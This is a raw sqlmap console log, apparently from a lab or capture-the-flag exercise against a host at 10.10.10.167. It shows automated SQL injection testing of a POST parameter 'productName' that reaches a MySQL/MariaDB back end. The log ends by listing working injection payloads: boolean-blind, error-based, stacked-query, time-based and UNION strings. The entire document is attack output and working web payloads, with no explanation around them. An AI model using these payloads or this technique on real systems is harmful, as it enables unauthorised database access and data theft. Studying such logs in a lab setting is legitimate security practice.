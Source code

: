 ```sh
[14:56:28] [WARNING] POST parameter 'productName' does not appear to be dynamic
[14:56:30] [INFO] heuristic (basic) test shows that POST parameter 'productName' might be injectable (possible DBMS: 'MySQL')
[14:56:31] [INFO] heuristic (XSS) test shows that POST parameter 'productName' might be vulnerable to cross-site scripting (XSS) attacks
[14:56:31] [INFO] testing for SQL injection on POST parameter 'productName'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] n
[14:56:34] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:56:43] [WARNING] reflective value(s) found and filtering out
[14:56:47] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:56:50] [INFO] testing 'Generic inline queries'
[14:56:51] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[14:56:57] [INFO] POST parameter 'productName' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[14:56:57] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:56:57] [WARNING] time-based comparison requires larger statistical model, please wait......... (done)
[14:57:22] [INFO] POST parameter 'productName' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[14:57:22] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:57:22] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:57:24] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:57:29] [INFO] target URL appears to have 6 columns in query
[15:27:26] [INFO] POST parameter 'productName' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[15:27:26] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'productName' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
---
Parameter: productName (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: productName=-5865' OR 6284=6284#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=1' AND (SELECT 7254 FROM(SELECT COUNT(*),CONCAT(0x7176627a71,(SELECT (ELT(7254=7254,1))),0x71706b6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- wKBp

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: productName=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=1' AND (SELECT 3230 FROM (SELECT(SLEEP(5)))cDBW)-- xhpV

    Type: UNION query
    Title: MySQL UNION query (NULL) - 6 columns
    Payload: productName=1' UNION ALL SELECT NULL,CONCAT(0x7176627a71,0x4858784b744d434b66704b5674736d4457614d494577654d46424446687274494c616465465a4a45,0x71706b6a71),NULL,NULL,NULL,NULL#
---
[15:27:30] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[15:27:32] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.167'
```